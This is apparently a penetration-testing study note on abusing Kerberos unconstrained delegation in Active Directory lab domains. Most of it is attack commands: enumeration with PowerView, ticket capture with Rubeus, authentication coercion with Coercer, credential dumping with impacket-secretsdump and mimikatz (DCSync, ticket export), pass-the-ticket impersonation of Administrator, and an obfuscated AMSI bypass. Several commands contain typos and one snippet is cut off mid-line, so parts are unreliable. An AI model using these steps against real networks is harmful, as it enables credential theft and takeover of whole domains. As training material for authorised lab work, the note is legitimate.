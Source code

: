 # Kerberos Unconstrained Delegation

## **Kerberos Unconstrained Delegation**

> General/Basic or Unconstrained Delegation which allows the first hop server (web server in our example) to request access to any service on any computer in the domain.

**Required**

1. Define Unconstrained Delegation Machines
2. we need to user who has Access to the machine

Essentially this looks like so: **`User`** --- authenticates to ---> **`IIS server`** ---> authenticates on behalf of the user ---> **`DB server`**

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### Tools

{% embed url="https://github.com/dirkjanm/krbrelayx.git" %}

define Unconstrained Machines

{% code overflow="wrap" %}
```powershell
#using PowerView
Get-NetComputer -Unconstrained
Get-DomainComputer -UnConstrained
Get-DomainComputer -Unconstrained -Properties DnsHostName
Get-DomainComputer -unconstrained | select samaccountname
# using Import-Module ActiveDirectory 
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
Get-ADComputer -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=524288)"
Get-ADComputer "IIS" -Properties TrustedForDelegation, TrustedToAuthForDelegation,msDS-AllowedToDelegateTo,PrincipalsAllowedToDelegateToAccount

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
<mark style="color:orange;">**Hint**</mark>**: discover users that who you have WriteDACL permission on there or do Enumeration to get user**
{% endhint %}

Rubeus

{% embed url="https://github.com/r3motecontrol/Ghostpack-CompiledBinaries" %}

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe ptt /tikcet: base64.exe  monitor /monitornterval:10 /targetuser$ /nowarp

.\Rubeus.exe ptt /tikcet: base64 

.\rubeus.exe asktgt /user:abdo /domain:hacktor.local /ntlm:Hash /outfile:FileName.tgt
#OR
cat b64.txt|base64 -d > ticket.kirbi 
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption><p>TGT ticket for the websvc account.</p></figcaption></figure>

After obtaining the TGT tickets from the domain controller, we can now request service tickets for the allowed services, i.e., **CIFS** and **TIME**, or alternate services like **LDAP** or **WMI**.

### Coercer

{% code overflow="wrap" %}
```bash
coerce -u arya.stark -d north.sevenkingdoms.local -p 'Needle' -t kingslanding.sevenkingdoms.local -l winterfell --always-continue

```
{% endcode %}

{% code overflow="wrap" %}
```bash
sudo impacket-secretsdump -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```
{% endcode %}

mimikatz

{% code overflow="wrap" %}
```powershell
mimikatz.exe "privilege::debug" "kerberos::ptt PDC.kirbi" "lsadump::dcsync /domain:hacktor.local /user:Administrator" "exit"
#Once the ticket is injected, run DCSync
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
{% endcode %}

now enumerating the computers which have unconstrained delegation enabl



```markdown
.\powerview.ps1
Get-NetComputer -Unconstrained
```

* Example output: We find the computer `WIN-Q4788GPE9L7` with unconstrained delegation enabled.



#### Step 2: Find Local Admin Access

```powershell
Find-LocalAdminAccess
```

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Output: Our user has local admin access to the computer with unconstrained delegation.

#### Step 3: Enable PowerShell Remoting

```powershell
Enable-PSRemoting
```

#### Step 4: Create and Use a PowerShell Session

```powershell
$sess = New-PSSession -ComputerName WIN-Q4788GPE9L7
Invoke-Command -FilePath ..\..\rem01x.crtp\Desktop\tools\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession -Session $sess
```

* Bypass AMSI:

```powershell
$amsiBypass = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic,Static')
$amsiBypass.SetValue($null, $true)


S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U')
```

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

#### Step 5: Dump Secrets and List Tickets

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Step 6: Export Tickets

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

<figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

* Example output: Administrator `.kirbi` file.

#### Step 7: Monitor Actions on the Machine

```powershell
Invoke-UserHunter -ComputerName WIN-Q4788GPE9L7 -UserAdminCount -Delay 5 -Verbose
```

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

* Output: Administrator account detected.

#### Step 8: Pass the Ticket to Memory and Impersonate the User

```powershell
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\Administrator\kerb\[0;120dde]-2-0-60a10000-Administrator@krbtgt-CRTP.LOCAL.kirbi"'
```

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

* Result: We are now the administrator on the machine.

### Deep Dive into Unconstrained Delegation

#### Process Overview

1. Vegeta wants to access the `server web01` to list folders.
2. The `web01` process impersonates Vegeta and creates a new thread with Vegeta's credentials.
3. The server accesses the intended folder with the impersonated thread.

#### Configuration

To list computers with unconstrained delegation:

```powershell
Get-NetComputer -Unconstrained | select cn,useraccountcontrol
```

#### Network Traffic (Wireshark Capture)

1. Client requests a TGT.
2. Domain controller responds with the TGT.
3. Client requests a service ticket (TGS) for the web application.
4. Domain controller responds with the TGS.
5. Client requests another TGT to delegate to the web service.
6. Domain controller responds with a copy of the user TGT.
7. The application request goes to the web server.
8. The web service requests a TGS for the SQL server using the client's TGT.
9. Domain controller responds with the TGS.
10. Access is granted and the database server is successfully accessed.
11. Application replies.

### Abusing Unconstrained Delegation

Continue monitoring and exploitation using appropriate PowerShell commands and tools.

## 📚**$\_References** <a href="#id-6572" id="id-6572"></a>

{% embed url="https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/?source=post_page-----4a0eddc5bb13--------------------------------" %}
